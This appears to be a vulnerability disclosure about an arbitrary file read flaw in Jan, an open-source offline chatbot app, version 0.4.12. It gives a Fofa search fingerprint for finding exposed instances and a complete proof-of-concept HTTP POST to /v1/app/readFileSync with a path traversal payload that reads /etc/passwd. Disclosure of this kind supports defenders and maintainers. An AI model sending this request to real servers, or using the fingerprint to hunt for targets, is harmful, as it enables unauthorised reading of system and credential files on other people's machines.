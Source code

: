 ## Introduce

Jan is an open source alternative to ChatGPT that runs 100% offline on your computer. Multiple engine support (llama.cpp, TensorRT-LLM).
![](https://blog.hackall.cn/usr/uploads/2024/05/3543389498.png)

### Vendor of the product(s)

- [Official website](https://jan.ai)
- [GitHub](https://github.com/janhq/jan)

## Vulnerability Description

Jan's API interface `readFileSync` does not filter parameters, resulting in an arbitrary file read/download vulnerability.

## Affected Version

- 0.4.12 Latest

## Search Syntax

### Fofa

- icon_hash="-165268926"

## Principle and recurrence of vulnerabilities

The `/v1/app/existsSync` interface can determine whether a file exists:

![](https://blog.hackall.cn/usr/uploads/2024/05/679120542.png)
![](https://blog.hackall.cn/usr/uploads/2024/05/3260732518.png)

The `/v1/app/readFileSync` interface can read or download arbitrary file:

![](https://blog.hackall.cn/usr/uploads/2024/05/3475216227.png)
![](https://blog.hackall.cn/usr/uploads/2024/05/2723573458.png)

## Poc

```
POST /v1/app/readFileSync HTTP/1.1
Host: {{Host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://<IP>:<Port>
contentType: application/json
Content-Type: text/plain;charset=UTF-8
Content-Length: 48
Origin: http://<IP>:<Port>
Connection: close

["file:/../../../../../../etc/passwd","utf-8"]
```
